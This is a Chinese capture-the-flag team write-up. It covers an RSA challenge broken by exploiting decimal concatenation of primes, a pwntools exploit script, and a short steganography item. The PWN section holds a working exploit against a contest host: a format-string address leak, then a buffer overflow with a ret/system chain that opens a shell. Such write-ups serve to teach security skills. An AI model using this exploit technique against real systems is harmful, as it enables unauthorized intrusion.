




# 水狗献花拜佛队战队 WriteUp

图片资源：`./images/`

## 排名

战队名称：第**123**名



## 解题思路

### Crypto

#### **HaM3**

1.题目

```python
from Crypto.Util.number import *
from secret import flag

p, q = getPrime(64), getPrime(64)
P = int(str(p) + str(q))
Q = int(str(q) + str(p))
PP = int(str(P) + str(Q))
QQ = int(str(Q) + str(P))
assert isPrime(PP) and isPrime(QQ)
n = PP * QQ
m = bytes_to_long(flag)
c = pow(m, 65537, n)
print('n =', n)
print('c =', c)
'''
n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
'''
```

2.题目分析

在生成p,q的时候，先生成两个64位的较小素数，然后基于这两个小素数直接连接式组合，得到了大素数，最后乘起来得到了最后的n。

这种直接组合受到了十进制位数的影响的，即生成的素数有是20位十进制数的可能，也有可能是19位十进制数的可能。这样根据排列组合就有三种情况：两个20位十进制数的素数、一个19位，一个20位十进制数的素数，也有可能是两个19位十进制数的素数。

首先设p,q均为10^19  ,发现组合后数值比n大，然后设p,q均为10^19 −1，发现组合后数值比n小了。所有一个是20位一个是19位。

设p的位数是20，q的位数是19，则：
$$
n=[pqqp]*[qppq]
$$

$$
[pq]=10^*19p+q
$$

$$
[qp]=10^*20q+p
$$

$$
[pqqp]=10^*58p+10^*39q+10^*20q+p
$$

$$
[qppq]=10^*59q+10^*39p+10^*19p+q
$$

带入计算得：

p^2 的系数是10 ^97+ 10^77+ 10^39+ 10^19

q^2 的系数是10 ^98+ 10^78+ 10^39+ 10^20

p*q的系数是10^117 +10^78 +2×10^59+ 2×10^58 +10^39+1

经过分析：在10^137 往上和10^18 往下都是只有pq的高位和低位，但是pq的值的中间一位是不知道的。则：截取n-10^136 |  10^136 和 n mod 10^19就可以得出pq

即：

```python
n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
n-=10**136
a,b=n//10**136,n%10**19
print(int(str(a)+str(b)))
```

这样可以得出p*q:

```python
142672086626283587036081295993762052633
```

使用在线工具分解：

```python
p = 9937378783676979077
q = 14357114660923972229
```

写出解密代码：

```python
from Crypto.Util.number import *

'''
n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
n-=10**136
a,b=n//10**136,n%10**19
print(int(str(a)+str(b)))
'''

def decrypt_RSA(c, e, p, q):
    phi = (p - 1) * (q - 1)
    d = inverse(e, phi)
    m = pow(c, d, p * q)
    print(long_to_bytes(m))


n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
p = 9937378783676979077
q = 14357114660923972229

P = int(str(p) + str(q))
Q = int(str(q) + str(p))
PP = int(str(P) + str(Q))
QQ = int(str(Q) + str(P))
N = PP * QQ
print(N == n)
decrypt_RSA(c, 65537, PP, QQ)
```

3.结果



### PWN

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
# p=process('./pwn3')
p=remote("121.196.192.181",10001)
elf=ELF('./pwn3')
p.recvuntil(b':')
p.sendline(b'2')#进入格式化字符串漏洞
p.sendlineafter(b'Welcome to Terra_Cotta_Warriors',b'%19$p')
base=int(p.recv(14),16)-0x2eb #得到基址
p_rdi=base+0x433#出栈
system=base+0x29a
ret=base+0x01a
exit=base+0x110
payload=b'a'*0x20+p64(ret)+p64(system)
p.recvuntil(b'choice :\n')
p.sendline(b'1')#进入缓冲区溢出漏洞
p.sendlineafter(b"Welcome to Huashan_Mountain",payload)
p.interactive()
```

### Misc

#### 管道

1. 题目


1. 题目分析

根据题目利用LSB隐写工具进行爆破




搜寻`flag`关键字



得到flag
